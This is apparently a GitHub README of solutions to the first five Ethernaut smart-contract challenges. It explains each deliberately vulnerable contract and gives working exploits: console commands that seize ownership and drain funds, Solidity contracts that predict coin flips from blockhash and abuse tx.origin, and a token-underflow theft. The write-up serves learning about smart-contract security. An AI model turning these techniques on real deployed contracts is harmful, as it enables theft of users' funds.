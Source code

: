  # ethernaut solutions

## 1. Fallback
From looking at the contract given to us in the first level we see that the final function ```receive()``` that is ```payable``` that is a fallback function that can be called to manipulate us to become the owner of the contract to withdraw all of the funds currently held in it.

We notice that we must first contribute some amount in order for the ```receive()``` function to give us the owner status we need to call ```withdraw()``` then we can drain the contract.

This can be done by running these three commands in our browser's console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
## 2. Fallout
Right away you can notice that the constructor is misspelled allowing any user to go in and calling ```Fal1out()``` which will give them ownership of the contract.

The following commands in the browser console will give you ownership of the contract:
```
await contract.owner() // shows that the owner of the contract currently is a NULL address
await contract.Fal1out({value: 1})
await contract.owner() // after the above command we now see that our address is the owner
await contract.collectAllocations()
```
## 3. Coinflip
Ok this was a little bit more difficult from the previous two since now we need to write code. I won't lie either I looked up some hints online to give me some type of idea how to go about this and it was much simpler once i read them. We need to import the CoinFlip contract given to us into a new solidity file so that it can be called at a later point after we submit our guess to the main ```flip()``` function in it. All we are really doing is taking the given function and copying it entirely but at the end when we check if the side is equal to our guess we just either submit our true or false answer if it is equal to the side and the opposite if not.

Below is my contract I wrote and deployed on Rinkeby that ended up working:
```// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

contract CoinFlipHack {
  CoinFlip target = CoinFlip(Instance ID);
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


  function hackFlip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      target.flip(true);
    } else {
      target.flip(false);
    }
  }
}
```
## 4. Telephone
Another easy one the contract is set up so that we can change ourself to the owner of the contract simply by calling the ```changeOwner()``` function through a contract from our address. Use ```await contract.owner()``` to see the initial owner of contract and to check that our address is the owner afterwards.

Code written that calls the Telephone contract to allow us to take ownership:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone target = Telephone(Instance ID);

    function telephoneHack(address _owner) public {
        target.changeOwner(_owner);
    }
}
```
## 5. Token
This is a basic level that shows that without using Openzeppelin's SafeMath that your contract is vulnerable to overflow attacks on unsigned variables.

This one command allows us to steal tokens from the contract:
```
await contract.transfer(Instance ID, 21)
```



